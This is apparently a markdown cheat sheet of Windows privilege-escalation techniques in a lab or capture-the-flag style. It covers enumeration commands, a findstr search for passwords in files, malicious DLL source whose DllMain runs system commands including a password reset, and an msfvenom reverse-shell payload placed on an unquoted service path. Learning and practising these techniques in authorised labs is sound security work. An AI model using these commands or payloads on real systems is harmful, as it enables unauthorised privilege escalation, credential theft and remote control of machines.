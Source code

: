 # Windows

## Scripts

- WinPEAS -> [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- PowerUp -> [Link](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- Windows Exploit Suggester -> [Link](https://github.com/bitsadmin/wesng)

## User enumeration

```console
Current user privileges:
$ whoami /priv

List users:
$ net users

List details of a user:
$ net user <username>

Other logged in Users:
$ qwinsta

User group on system:
$ net localgroup

List memers of a specific group:
$ net localgroup <groupname>
```

## System information

```console
$ systeminfo
$ systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

$ hostname
```

## Searching files

```console
$ findstr /si password *.txt
findstr: Searches for patterns of text in files.
/si: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
password: The command will search for the string “password” in files
*.txt: The search will cover files that have a .txt extension
```

## Vulnerable Software

```console
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
$ wmic service get name,displayname,pathname,startmode
$ wmic product get name,version,vendor
$ wmic service list brief | findstr  "Running"
```
Check for Vulns :
- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## Network connections

```console
C:\Users\user\Desktop>netstat -ano
-a: Displays all active connections and listening ports on the target system.
-n: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-o: Displays the process ID using each listed connection.

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       68
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1092
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1348
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1636
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2288
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2468
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       788
```

Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service.

## Sheduled tasks

```console
$ schtasks /query /fo LIST /v
```

## DLL hijacking

Windows follow one og these concepts:
- SafeDllSearchMode enabled:
  - The directory from which the application loaded.
  - The system directory. Use the GetSystemDirectory function to get the path of this directory.
  - The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
  - The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
  - The current directory.
  - The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

- SafeDllSearchMode is disabled
  - The directory from which the application loaded.
  - The current directory.
  - The system directory. Use the GetSystemDirectory function to get the path of this directory.
  - The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
  - The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
  - The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key.     The App Paths key is not used when computing the DLL search path.

Finding Vulnerarbilities with `ProcMon` or any script like winPEAS
ProcMon needs admin privileges

Creating the malicious DLL file with Payload:

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;

    Payload for changing PW:
    "cmd.exe /k net user jack Password11"
}
```
use minqw compiler to generate dll file:
```
$ apt install gcc-mingw-w64-x86-64
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

start and restart the llsvc
$ sc stop dllsvc & sc start dllsvc
```

## Unquoted Service Path

Check the reffering binary for an executable

```console
$ C:\Users\user>sc qc netlogon
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: netlogon
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\lsass.exe
        LOAD_ORDER_GROUP   : MS_WindowsRemoteValidation
        TAG                : 0
        DISPLAY_NAME       : Netlogon
        DEPENDENCIES       : LanmanWorkstation
        SERVICE_START_NAME : LocalSystem
```

In the example above, when the service is launched, Windows follows a search order similar to what we have seen in the previous task. Imagine now we have a service (e.g. srvc) which has a binary path set to C:\Program Files\topservice folder\subservice subfolder\srvc.exe
To the human eye, this path would be merely different than "C:\Program Files\topservice folder\subservice subfolder\srvc.exe". We would understand the service is trying to run srvc.exe.

Windows approaches the matter slightly differently. It knows the service is looking for an executable file, and it will start looking for it. If the path is written between quotes, Windows will directly go to the correct location and launch service.exe. 

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append ".exe" and start looking for an executable, starting with the shortest possible path. In our example, this would be C:\Program.exe. If program.exe is not available, the second attempt will be to run topservice.exe under C:\Program Files\. If this also fails, another attempt will be made for C:\Program Files\topservice folder\subservice.exe. This process repeats until the executable is found. 

Knowing this, if we can place an executable in a location we know the service is looking for one, it may be run by the service. 
As you can understand, exploiting an unquoted service path vulnerability will require us to have write permissions to a folder where the service will look for an executable. 

WinPeas or PowerUP detect this Vulnerabilities.

```console
$ wmic service get name,displayname,pathname,startmode

Prints out the running services
```

Create a Payload for reverseshell with msfvenom:
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe
- executable name see example above e.g. subservice.exe
```

Upload file and start service:
```console
$ sc start unquotedsvc
```